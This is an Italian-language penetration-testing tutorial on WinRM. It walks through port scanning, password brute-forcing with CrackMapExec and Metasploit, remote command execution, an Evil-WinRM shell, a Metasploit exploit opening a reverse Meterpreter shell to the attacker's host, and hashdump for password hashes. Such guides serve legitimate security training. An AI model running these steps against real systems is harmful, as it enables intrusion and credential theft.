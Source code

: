 # WinRM Enumeration & Exploitation

**WinRM (Windows Remote Management)** è un protocollo Microsoft che consente l’amministrazione remota di macchine Windows tramite PowerShell. Utilizza le porte `5985/TCP` (HTTP) e `5986/TCP` (HTTPS), e viene ampiamente usato in ambienti Active Directory per la gestione centralizzata dei sistemi. Quando mal configurato o esposto, può rappresentare un punto d’accesso critico.

---

## Fase 1 – Scansione del Servizio WinRM

La scansione standard di Nmap (`nmap -sS <IP>`) **non include automaticamente le porte 5985 e 5986**, quindi è fondamentale specificarle manualmente:

`nmap -p 5985,5986 -sV <IP>` ⟶ verifica se WinRM è attivo e restituisce banner, certificati e dettagli del server.  

Per uno script specifico:
`nmap -p 5985 --script http-winrm-info <IP>`

Con Metasploit:
`use auxiliary/scanner/winrm/winrm_auth_methods`<br>
`set RHOSTS <IP>`<br>
`run`<br>

Questo modulo consente di determinare i metodi di autenticazione supportati (NTLM, Basic, Kerberos).

WinRM può anche essere attivo su porte non standard. Per rilevarlo:

`use auxiliary/scanner/rdp/rdp_scanner`<br>
`set RHOSTS <IP>`<br>
`set RPORT <porta_sospetta>`<br>
`run`<br>

---

## Fase 2 – Brute-force delle Credenziali

### CrackMapExec

CrackMapExec è uno strumento multiuso per testare l’autenticazione nei servizi Windows. 

Per vedere le opzioni disponibili:
`crackmapexec -h`

Attacco bruteforce su WinRM:
`crackmapexec winrm <IP> -u <username> -p <lista_password>`  
Oppure per test singolo:
`crackmapexec winrm <IP> -u administrator -p Password123`

### Metasploit

In alternativa, puoi usare Metasploit:
`use auxiliary/scanner/winrm/winrm_login`<br>
`set RHOSTS <IP>`<br>
`set USER_FILE <lista_utenti>`<br>
`set PASS_FILE <lista_password>`<br>
`set PASSWORD anything`<br>
`run`<br>

Il campo `PASSWORD` deve sempre essere valorizzato anche se stai usando un dizionario, altrimenti il modulo non eseguirà il test.

---

## Fase 3 – Esecuzione Remota di Comandi

### Con CrackMapExec:

`crackmapexec winrm <IP> -u <username> -p <password> -x "whoami"`<br>
Permette di eseguire comandi come `whoami`, `hostname`, `systeminfo`, ecc.

### Con Metasploit:

`use auxiliary/scanner/winrm/winrm_cmd`<br>
`set RHOSTS <IP>`<br>
`set USERNAME <utente>`<br>
`set PASSWORD <password>`<br>
`set CMD "whoami"`<br>
`run`<br>

Questo modulo è utile per:
- Verificare se le credenziali funzionano
- Eseguire comandi diagnostici
- Operare in ambienti con logging avanzato
- Testare permessi utente

---

## Fase 4 – Accesso Interattivo

### Evil-WinRM

Strumento Ruby per accedere a una shell PowerShell remota:

`evil-winrm -u <username> -p '<password>' -i <IP>`<br>

Funzionalità disponibili:
- Shell interattiva
- Upload e download file
- Esecuzione script PowerShell
- Post-exploitation tools

---

## Fase 5 – Exploit con Metasploit

Per ottenere una shell Meterpreter:

`use exploit/windows/winrm/winrm_script_exec`<br>
`set RHOSTS <IP>`<br>
`set LHOST <tuo_IP>`<br>
`set LPORT <Port>`<br>
`set USERNAME <utente>`<br>
`set PASSWORD <password>`<br>
`set FORCE_VBS true`<br>
`run`<br>

L’opzione `FORCE_VBS` forza l’esecuzione tramite VBScript e aumenta la compatibilità su sistemi con policy restrittive.

---

## Fase 6 – Post-Sfruttamento

Una volta ottenuto accesso tramite Meterpreter:
- `getuid` ⟶ mostra l’identità dell’utente corrente<br>
- `getprivs` ⟶ elenca i privilegi<br>
- `hashdump` ⟶ estrae hash delle password (se permesso)<br>
- `sysinfo` ⟶ mostra dettagli del sistema<br>
- `shell` ⟶ apre un prompt interattivo<br>

---
